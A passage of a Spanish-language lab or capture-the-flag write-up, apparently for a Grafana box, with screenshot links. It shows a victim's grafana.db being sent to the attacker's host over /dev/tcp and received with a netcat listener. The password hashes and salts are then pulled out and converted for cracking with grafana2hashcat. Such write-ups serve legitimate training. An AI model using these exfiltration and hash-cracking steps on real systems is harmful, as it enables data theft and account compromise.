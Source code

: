 <p>colocamos nuestra maquina en escucha,envairemos el arhivo alojado en la maquina victima a nuestra maquina .</p>
<pre><code>
  cat grafana.db > /dev/tcp/10.10.14.26/4444 
  nc -lvnp 4444 > grafana.db       
</code></pre>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-28%20173009.png?raw=true" alt="Captura de pantalla">
<p>El archivo fue enviado con exito.</p>
<p>Es un archivo MSQL.</p>
<pre><code>
https://inloop.github.io/sqlite-viewer/             
</code></pre>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-27%20232844.png?raw=true" alt="Captura de pantalla">
<p>copiamos las cadenas de password y salt, creamos un archivo hash.txt procedemos a clonar la herramienta grafana2hashcat.</p>
<pre><code>
 https://github.com/iamaldi/grafana2hashcat        
</code></pre>
<p>Vamos a usarla</p>
<pre><code>
python3 grafana2hashcat.py hash.txt             
</code></pre>